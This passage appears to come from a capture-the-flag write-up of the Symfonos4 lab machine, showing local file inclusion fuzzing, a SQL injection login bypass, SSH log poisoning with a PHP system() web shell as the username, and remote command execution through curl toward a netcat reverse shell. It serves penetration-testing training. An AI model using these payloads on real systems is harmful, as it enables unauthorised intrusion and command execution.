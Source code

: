 ```python
            print(f"{x} {p:50}", end='\r')

```

Then we run our script and we can see that the ssh log file is possible to include.

```bash
root@kali:~$ python3 lfi.py
4706 /var/log/auth                                     
274347 /var/log/dpkg
```


![](/assets/images/symfonos4/screenshot-6.png)

## Exploitation
### SSH Log Poisoning
This is a technique that allows the attacker to inject malicious code into the ssh registry, keeping this in mind, we inject the system function as username, as shown below:

```bash
root@kali:~$ ssh -l '<?php system($_GET[cmd]); ?>' 192.168.179.138
<?php system($_GET[cmd]); ?>@192.168.179.138's password:
```
With curl we'll try to request the ssh log but adding as parameter a system command, in this case we can see that the commad **id** is executed correctly, then we verify that netcat exists and thus obtain a reverse shell.


```bash
root@kali:~$ curl -s -L -X POST -c cookies_file.txt "http://192.168.179.138/atlantis.php" --data "username=admin'+or+1%3d1+%23&password=password" 

root@kali:~$ curl -s -b cookies_file.txt "http://192.168.179.138/sea.php?file=../../../../../../../var/log/auth&cmd=id" | html2text -width 90 | tail -2
for invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data) from 192.168.179.1
port 38056 ssh2

root@kali:~$ curl -s -b cookies_file.txt "http://192.168.179.138/sea.php?file=../../../../../../../var/log/auth&cmd=whereis%20nc" | html2text -width 90 | tail -2 
password for invalid user nc: /usr/bin/nc.traditional /usr/bin/nc /usr/share/man/man1/
nc.1.gz from 192.168.179.1 port 38056 ssh2
```
